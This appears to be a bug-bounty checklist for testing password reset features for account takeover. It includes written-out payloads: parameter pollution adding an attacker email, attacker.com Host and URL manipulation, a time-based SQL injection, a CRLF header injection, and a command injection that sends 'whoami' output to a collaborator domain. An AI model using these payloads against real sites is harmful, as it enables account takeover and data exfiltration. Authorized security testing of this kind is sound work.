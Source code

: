 # Testing Password Reset Functionality
1. Look for Password Reset Poisoning.
2. HTTP Parameter Pollution:
```
email=victim@gmail.com&email=attacker@gmail.com
email[]=victim@gmail.com&email[]=attacker@gmail.com
email=victim@gmail.com%20email=attacker@gmail.com
email=victim@gmail.com|email=attacker@gmail.com
{"email":"victim@gmail.com","email":"attacker@gmail.com"}
{"email":["victim@gmail.com","attacker@gmail.com"]}
```
Check if you can reset victim's password using the link received in attacker's inbox.

3. Look for IDOR while resetting password through password reset link. Use paramminer to discover additional parameters or append previously known parameters (For example, you may find a parameter uid while updating your profile) in the request.
4. Broken Crypto - Check if you can guess how the password reset tokens are generated.
5. Password reset token Leakage via referral header - Open the password reset link and click on any external links available in the page. 
6. Token leakage in response/JS files - Search for the password reset token in the response of the request or in JS files.
7. Session/Token is not expiring after password reset.
8. Weak Password Policy - Add only space in password.
9. Request for 2 password reset links and try the older one.
    RTLO: https://hackerone.com/reports/563268
    BYPASS: https://hackerone.com/reports/271324
11. Try:
```
POST https://attacker.com/resetpassword.php HTTP/1.1
POST @attacker.com/resetpassword.php HTTP/1.1
POST :@attacker.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
```
Check if the password reset link is manipulated or not.

11. SQLi: ```test@test.com'+(select*from(select(sleep(2)))a)+'```
12. CRLF: ```/resetpassword?%0d%0aHost:%20attacker.com```
13. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. A similar vulnerability was found in CTFd ([CVE-2020-7245](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7245))
14. Application Level DoS - Try to set a very long password and check if the response time is delayed or if you get a 5xx response.
15. If they are sending an otp for password reset, try [2FA Bypass](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/2FA.md) techniques.
16. During registration, use homograph in email. Now try password reset.
17. Change the request method and content-type and observer how the application is responding.
18. Append null bytes after your email and observe the response.
19. Try XSS, SSTI etc in the email field.
20. Try Command injection by ```email=hello@`whoami`.xyz.burpcollaborator.net```
21. 2FA auto disabled after password reset.
22. User Enumeration.
23. Check whether any param value is reflecting in the email. Now try HTMLi.
24. XXE (if forgot-password request accepts xml).
25. Missing Rate Limit - Email triggering.

Reference:
- https://twitter.com/tuhin1729_/status/1437471718142976007
- https://speakerdeck.com/tuhin1729/account-takeover-via-exploiting-misconfigured-password-reset-feature
- https://speakerdeck.com/tuhin1729/abusing-password-reset-functionality
